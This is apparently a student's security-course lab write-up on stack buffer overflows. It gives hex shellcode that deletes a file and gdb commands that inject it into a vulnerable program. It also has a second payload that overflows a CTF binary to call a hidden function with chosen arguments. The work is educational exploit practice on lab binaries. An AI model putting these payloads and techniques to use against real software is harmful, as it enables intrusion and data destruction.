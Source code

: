  22110042 Doan Minh Khanh
> ### Lab 2 
## Task 1
**Inject code to delete file: file_del.asm is given on github**

Create a file called dummy file
>![image](./IS_lab2/dummyfile.png)

 Firstly, accessing to the virtual machine by Docker
>![docker access](./IS_lab2/docker-acess.png)

> Go into the lab\seclabs\Security-labs\Software\buffer-overflow and then create a file_asm out by these 2 commands
![create_file](./IS_lab2/file-delout.png)

Then I will get the hexstring of file_del

 for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
>\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.
>
Remove \xdummyfile because it is not meaningful hexadecimal code       
> \xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

Stack Frame
>  ![image](./IS_lab2/stackeframe.png)

To execute the the file_del, it needs to overwrite the buffer

It is: 36 bytes shell code + 4 bytes return address + 32 bytes placement code = 72 bytes

Now we need to access gdb of vuln.out 
>  ![image](./IS_lab2/gdb-vulnout.png)

 break at 0x0804843e and 0x0804846b

 using r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

then we run the shell and look by command: x/80xb $esp

>Then, we will observe the first 3 bytes will respond the shellocde, but at the 4th byte because we have \x0a in the hexstring, the strcpy will make the interuption
>![image](./IS_lab2/strcpy.png)

Therefore, we need to change some character:
* 0x00: null
* 0x09: horizontal tab
* 0x0a: line feed
>![image](./IS_lab2/rootstarter.png)

 So we need to change the assembly code in file-del to this for replacing the \x0a in the line *"move eax,10"* 
> 
>![image](./IS_lab2/changestarter.png)

Get the shellcode again, we have:
>![image](./IS_lab2/afterchangecode.png)
 
 Now, we prevent the termination by the address 0xff and mark the return of the return frame
> 
 Also, we can see the address pf esp is \x68\xd6\xff\xff. So we need change the marked position to this position. So we change the command into:
>![image](./IS_lab2/setagain.png)

> r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\x68\xd6\xff\xff')")

> ![image](./IS_lab2/afterchangemarked.png)
 
 then we continue to set 0xffffd6d8b = 0x00 and change the bit from 0xffffd671 to 0xffffd674 to the address of the dummyfile
> ![image](./IS_lab2/dummyfile_addr.png)
 
  then we have final result
> ![image](./IS_lab2/set0x00.png)

 and the dummy_file is deleted by vuln.c
> ![image](./IS_lab2/dummyfile_deleted.png)

***
## Task 2
**Conduct attack on ctf.c** 

 The stack frame
> ![image](./IS_lab2/stackctf.png)

The *vuln* function accounts for the first 104 bytes
> ![image](./IS_lab2/code-ctf.png)

To overflow, we need to over the return address


Create the file ctf.out
> gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2

Connect gdb and disas myfunc
> ![image](./IS_lab2/disasmyfunc.png)

 we have the *myfunc* adress: 0x0804851b, and p = 0x04081211 and q = 0x44644262 so we have the command
> we have 104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)
> 
> r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")

After running we met flag 1 is missing >> create flag1.txt
> ![image](./IS_lab2/flag1misssing.png)
> ![image](./IS_lab2/createdflag1.png)

But when running in gdb, it meet an infinite func
>![image](./IS_lab2/infinite.png)

So we need to find the exit address to replace the padding 
>![image](./IS_lab2/exitaddr.png)
> r $(python -c "print('a'*104 + '\x1b\x85\x04\x08' + '\xe0\x83\x04\x08'+ '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")

 Run again and we have the expected outcome:
> ![image](./IS_lab2/overflow.png)




